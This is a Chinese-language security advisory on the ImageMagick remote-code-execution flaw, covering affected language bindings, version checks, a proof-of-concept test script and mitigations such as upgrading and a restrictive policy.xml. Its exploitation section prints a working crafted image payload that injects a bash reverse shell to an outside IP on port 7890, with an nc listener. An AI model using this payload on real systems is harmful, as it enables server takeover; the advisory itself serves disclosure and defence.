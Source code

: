 ```yaml
---
description: 详细介绍ImageMagick的漏洞危害自测方法、利用方式EXP和修复方案。
---
```


# ImageMagick安全详解

Feei <feei#feei.cn>

## 漏洞危害 
ImageMagick是用来处理图片的通用组件，涉及众多语言与平台。 

- PHP(imagick/MagickWand) 
- Python(PythonMagick) 
- Java(JMagick) 
- Nodejs(imagemagick) 
- Ada(G2F) 
- C(MagickCore/MagickWand) 
- Ch(ChMagick) 
- C++(Magick++) 
- Lisp(L-Magick) 
- Neko/haXe(nMagick) 
- Pascal(PascalMagick) 
- Perl(PerlMagick) 
- Ruby(RMagick) 
- Tcl/TK(TclMagick) 

此次漏洞导致的直接危害为**远程代码执行（RCE）** 也就是说，如果你的业务中有用到ImageMagick处理图片，则攻击者只需要上传一个特殊构造的图片即可拿到你服务器的权限。 

## 检查是否有使用

一般ImageMagick用在处理图片的裁剪、压缩以及水印等地方。如果你网站有上传图片的地方，就极有可能用到了。

可以通过关键字搜索： 

PHP代码关键字：```Imagick``` 
Java代码关键字：```MagickImage``` 

## 检测方式 

#### 1. 通过版本号确认是否存在 

**6.9.3-9**之前的版本都存在该漏洞(**6.9.3-9**版本不完全修复该漏洞)，建议升级至最新的**2016-05-09 7.0.1-3**。 
```bash 
$ convert --version 
Version: ImageMagick 6.8.3-7 2013-07-30 Q16 http://www.imagemagick.org 
Copyright: Copyright (C) 1999-2013 ImageMagick Studio LLC 
Features: DPC OpenMP Delegates: bzlib fontconfig freetype gslib jng jpeg pango png ps tiff x xml zlib 
```

#### 2. 检测脚本 

```bash 
$ git clone https://github.com/ImageTragick/PoCs.git 
$ cd PoCs 
$ ./test.sh 
``` 

## 利用方式 

在自己服务器（此处演示为103.21.140.84）上开启监听端口7890 

```bash 
$ nc -vvl 7890 
```

将以下保存为test.jpg，上传到对应图片处理处。 

```bash
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://example.com/image.jpg"|bash -i >& /dev/tcp/103.21.140.84/7890 0>&1")' 
pop graphic-context 
```

在自己服务器（此处演示为103.21.140.84）上查看是否有反弹SHELL 

## 修复方式 

**升级ImageMagick至最新的[2016-05-09 7.0.1-3](http://www.imagemagick.org/script/binary-releases.php)版本。** 

如果无法快速升级，先临时做好以下两点： 
1. 处理图片前，先检查图片的magic bytes，也就是图片头，如果图片头不是你想要的格式，那么就不调用ImageMagick处理图片。如果你是php用户，可以使用getimagesize函数来检查图片格式，而如果你是wordpress等web应用的使用者，可以暂时卸载ImageMagick，使用php自带的gd库来处理图片。 

2. 使用policy file来防御这个漏洞，这个文件默认位置在 /etc/ImageMagick/policy.xml ，我们通过配置如下的xml来禁止解析https等敏感操作： 

```xml 
<policymap>  
  <policy domain="coder" rights="none" pattern="EPHEMERAL" />
  <policy domain="coder" rights="none" pattern="URL" />
  <policy domain="coder" rights="none" pattern="HTTPS" />
  <policy domain="coder" rights="none" pattern="MVG" />
  <policy domain="coder" rights="none" pattern="MSL" />
  <policy domain="coder" rights="none" pattern="TEXT" />
  <policy domain="coder" rights="none" pattern="SHOW" />
  <policy domain="coder" rights="none" pattern="WIN" />
  <policy domain="coder" rights="none" pattern="PLT" />
</policymap>
```

### 参考 
- [ImageMagick Changelog](http://www.imagemagick.org/script/changelog.php) 
- [ImageTragick](https://imagetragick.com/)
- [PHP Imagick](http://pecl.php.net/package/imagick)
